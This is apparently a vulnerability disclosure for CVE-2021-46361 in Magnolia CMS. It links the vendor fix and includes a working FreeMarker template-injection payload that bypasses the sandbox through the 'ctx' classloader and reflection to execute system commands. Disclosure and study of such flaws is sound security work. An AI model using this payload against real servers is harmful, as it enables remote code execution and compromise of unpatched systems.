

# CVE-2021-46361: FreeMarker Restriction Bypass in Magnolia CMS

Magnolia (versions <=6.2.11) uses the Java FreeMarker Template parser in order to display dynamic content in the web application.
<br/>
Although the application implements restrictions against dangerous elements such as the FreeMarker "?new" built-in and the Java "class", "getClass" and/or "forName", a bypass was found that circumvents these restrictions and can be leveraged by attackers to obtain Remote Code Execution (RCE).

### Vendor Disclosure:

The vendor's disclosure and fix for this vulnerability can be found [here](https://docs.magnolia-cms.com/product-docs/6.2/Releases/Release-notes-for-Magnolia-CMS-6.2.12.html#_security_advisory).

### Proof Of Concept:

Even if an attacker has access to modifying ".FTL" files or dynamic fields that evaluate FreeMarker template code, because of the restrictions protecting the template parser, code execution is not trivially obtained.
<br/>
Simple FreeMarker Server-Side Template Injection (SSTI) elements that should result in RCE (e.g. ${"freemarker.template.utility.Execute"?new()("id")} ), throw a silent error and the code is not executed.
<br/>

In order to bypass the restrictions and obtain RCE the following SSTI was used:
```
[#assign classloader = ctx.getRequest().servletContext.classLoader]
[#assign x = classloader.loadClass("freemarker.template.ObjectWrapper").getField("DEFAULT_WRAPPER").get("null")]
[#assign ec=classloader.loadClass("freemarker.template.utility.Execute")]
${x.newInstance(ec,null)("id")}
```

The above code leverages the "ctx" element which is an object of class "info.magnolia.context.HTMLEscapingWebContextWrapper". This is a web object containing the Server Context which can be used to reach a valid Java classloader with the following gadget:
```
ctx.getRequest().servletContext.classLoader
```

From here we can leverage Java reflection in order to load dangerous FreeMarker classes that will result in RCE. For more information on the reflection chain using the above classloader please refer to [EXPLOITING CVE-2021-25770: A SERVER-SIDE TEMPLATE INJECTION IN YOUTRACK](https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack.html).
<br/>

In order to prove that the bypass is functional we can modify any "FTL" file in the application (in this case "/travel-demo/templates/components/carouselArea.ftl"):



After saving the modified "FTL" file we can create a new page or access a page that already has a "carouselArea" element where we are able to see the result of the executed system command (in this case we executed the Linux "id" command).


### Additional Resources:

More details about FreeMarker SSTI vulnerabilities can be found [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#freemarker-java)
<br/>
[EXPLOITING CVE-2021-25770: A SERVER-SIDE TEMPLATE INJECTION IN YOUTRACK](https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack.html)
